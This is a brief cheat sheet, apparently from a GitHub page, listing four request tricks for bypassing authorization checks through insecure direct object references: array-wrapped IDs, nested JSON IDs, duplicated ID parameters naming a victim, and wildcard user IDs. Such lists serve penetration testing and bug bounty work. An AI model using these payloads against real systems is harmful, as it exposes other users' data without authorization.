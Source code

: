 # idor
Authorization bypasses tricks:✅
🔸 Wrap ID with an array {“id”:123} --> {“id”:[123]}
🔸 JSON wrap {“id”:123} --> {“id”:{“id”:123}}
🔸 Send ID twice URL?id=<LEGIT>&id=<VICTIM>
🔸 Send wildcard {"user_id":"*"}

